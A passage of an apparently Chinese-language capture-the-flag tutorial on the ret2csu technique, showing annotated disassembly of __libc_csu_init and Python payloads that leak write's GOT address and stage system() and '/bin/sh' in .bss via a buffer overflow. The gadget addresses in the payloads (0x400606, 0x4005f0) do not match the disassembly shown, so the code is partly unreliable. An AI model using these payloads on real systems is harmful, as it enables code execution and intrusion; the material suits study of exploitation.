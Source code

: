 ```bash
  400604:       31 db                   xor    ebx,ebx
  400606:       48 c1 fd 03             sar    rbp,0x3
  40060a:       48 83 ec 08             sub    rsp,0x8
  40060e:       e8 05 fe ff ff          call   400418 <_init>
  400613:       48 85 ed                test   rbp,rbp
  400616:       74 1e                   je     400636 <__libc_csu_init+0x56>
  400618:       0f 1f 84 00 00 00 00    nop    DWORD PTR [rax+rax*1+0x0]
  40061f:       00 
  400620:       4c 89 ea                mov    rdx,r13
  400623:       4c 89 f6                mov    rsi,r14
  400626:       44 89 ff                mov    edi,r15d
  400629:       41 ff 14 dc             call   QWORD PTR [r12+rbx*8]
  40062d:       48 83 c3 01             add    rbx,0x1
  400631:       48 39 eb                cmp    rbx,rbp
  400634:       75 ea                   jne    400620 <__libc_csu_init+0x40>
  400636:       48 83 c4 08             add    rsp,0x8
  40063a:       5b                      pop    rbx	//为了减小后面利用难度，将rbx取值为0
  40063b:       5d                      pop    rbp	//将rbp取值为1，通过检测，使检验避过。
  40063c:       41 5c                   pop    r12	//这里存放我们最后跳转目标函数地址
  40063e:       41 5d                   pop    r13	//传入第一个参数
  400640:       41 5e                   pop    r14	//第二个参数
  400642:       41 5f                   pop    r15	//第三个参数
  400644:       c3                      ret    
  400645:       90                      nop
  400646:       66 2e 0f 1f 84 00 00    nop    WORD PTR cs:[rax+rax*1+0x0]
  40064d:       00 00 00 
```
可以看到利用0x40063a处的代码我们可以控制`rbx`, `rbp`,` r12`, `r13`, `r14`和`r15`的值，随后利用0x400620处的代码，可以将`r15`, `r14`,` r13`的值赋给`rdx`, `rsi`, `edi`。接着调用`call qword ptr [r12+rbx*8]`。只要将`rbx`的值设为0，再构造栈上的数据就可以控制pc去调用相关函数了。

执行完call之后，程序会对rbx+1，然后比较rbp和rbx的值，如果相等就继续执行并ret到想要继续执行的地址。为了让rbp和rbx的值相等，可以将rbp的值设为1，因为之前把rbx设为了0。

先构造payload1，利用write()输出write在内存中的地址。因为gadget是`call qword ptr [r12+rbx*8]`，所以应该使用write.got而不是write.plt的地址(got里存的是地址，plt里存的是指令)。并且为了返回原程序中，重复利用buffer overflow，我们需要再次覆盖栈上的数据，直到把返回值覆盖成目标函数的main函数为止。

```python
# rdi = r13, rsi = r14, rdx = r15
# write(rdi = 1, rsi = write.got, rdx = 4)
payload1 = "\x00" * 136
# pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload1 += p64(0x400606) + p64(0xdeadbeff) + p64(0) + p64(1) + p64(got_write) + p64(1) + p64(got_write) + p64(8)
# mov rdx,r15; mov rsi,r14; mov edi,r13d; call qword ptr [r12+rbx*8]
payload1 += p64(0x4005f0)
payload1 += "\x00" * 0x38
payload1 += p64(main)
```

exp接收到write()在内存中的地址后，可以计算出system()在内存中的地址。构造payload2，利用read()将system()的地址以及”/bin/sh”写入到.bss段内存中。

```python
# read(rdi = 0, rsi = bss_addr, rdx = 16)
payload2 = "\x00" * 136
payload2 += p64(0x400606) + p64(0xdeadbeef) + p64(0) + p64(1) + p64(got_read) + p64(0) + p64(bss_addr) + p64(16)
payload2 += p64(0x4005f0)
payload2 += "\x00" * 0x38
payload2 += p64(main)
```
